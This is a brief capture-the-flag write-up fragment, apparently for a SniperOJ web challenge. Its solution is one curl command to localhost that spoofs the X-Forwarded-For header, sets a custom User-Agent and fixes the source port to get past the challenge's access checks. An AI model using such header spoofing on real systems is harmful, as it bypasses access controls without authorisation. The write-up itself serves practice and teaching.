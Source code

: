 #### Goals
 * Get Flag

#### Solution
```
curl http://127.0.0.1/ \
    --header 'X-Forwarded-For:127.0.0.1' \
    --header 'User-Agent:SniperOJ-Web-Broswer' \
    --local-port 23333
```

#### Other Solutions
 * 

